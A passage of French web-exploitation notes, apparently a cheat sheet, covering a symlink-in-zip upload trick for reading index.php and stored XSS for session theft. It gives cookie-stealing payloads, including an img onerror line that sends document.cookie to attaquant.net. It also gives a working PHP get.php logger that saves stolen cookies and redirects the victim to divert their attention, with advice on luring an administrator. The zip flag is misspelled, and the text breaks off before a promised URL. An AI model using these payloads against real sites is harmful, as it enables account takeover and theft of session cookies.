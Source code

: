 ## Uploading - Exploiter les archives
En admettant que le but soit la récupération du fichier `index.php` et que le site va décompresser l'archive, il est possible de créer un lien symbolique vers `index.php` dans l'archive, lors de la décompression c'est le fichier cible du site qui apparaîtra. Pour créer l'archive à uploader:

    $ ln -s ../../../index.php file.txt
    $ zip --symplinks file.zip file.txt

## Exploiter la faille XSS avec PHP
La faille XSS consiste à injecter du code dans une entrée utilisateur pour exécuter du code JS ou HTML. Par exemple si on rentre `<b>Hello</b>` dans une entrée et que l'on voit le mot Hello affiché en gras, c'est que nous pouvons injecter du code. Pour s'en prémunir il faut filtrer les entrées utilisateurs avec la fonction `htmlspecialchars` qui remplace `<`, `>`, `&`, `'` et `"` par son équivalent HTML. Mais si ce n'est pas le cas ...

Il existe deux types de failles:
* la non permanente : rien ne sera enregistré dans la base de donnée
* la permanente : lorsque le code persistant. Il sera enregistré via un formulaire qui envoi un message à l'administrateur, un livre d'or (bien que l'on en trouve plus beaucoup)...

Avec la nom permanente on peut afficher le cookie comme suit :

    <script type="text/javascript">alert(document.cookie);</script>

La permanente est celle qui est dangeureuse. Une fois mise en place il faut inciter l'administrateur à aller dessus pour que le piège se referme et qu'elle s'exécute, on peur notamment ainsi récupérer son cookie et donc sa session avec les droits.

Par exemple, si une image n'exsite pas, le code suivant envoi le cookie admin à l'attaquant:

    <img src="notfound.png" onerror="window.location='http://www.attaquant.net/get.php?cookie='+document.cookie;">

get.php

    <?php 
        if(isset($_GET['c']) && is_string($_GET['c']) && !empty($_GET['c'])) {
    
            $referer = $_SERVER['HTTP_REFERER'];
            $date = date('d-m-Y \à H\hi');
            $data = "From :   $referer\r\nDate :   $date\r\nCookie : ".htmlentities($_GET['c'])."\r\n------------------------------\r\n";
    
            $handle = fopen('cookies.txt','a');
            fwrite($handle, $data);
            fclose($handle);
    
        }
    ?>
    <script language="javascript" type="text/javascript">
	    window.location.replace("http://www.diversion.com");
    </script>
Cette dernière partie sert à rediriger l'utilisateur ailleurs pour détourner son attention.

Pour tout faire d'un coup dans une URL sur laquelle l'admin n'aura qu'à se rendre :

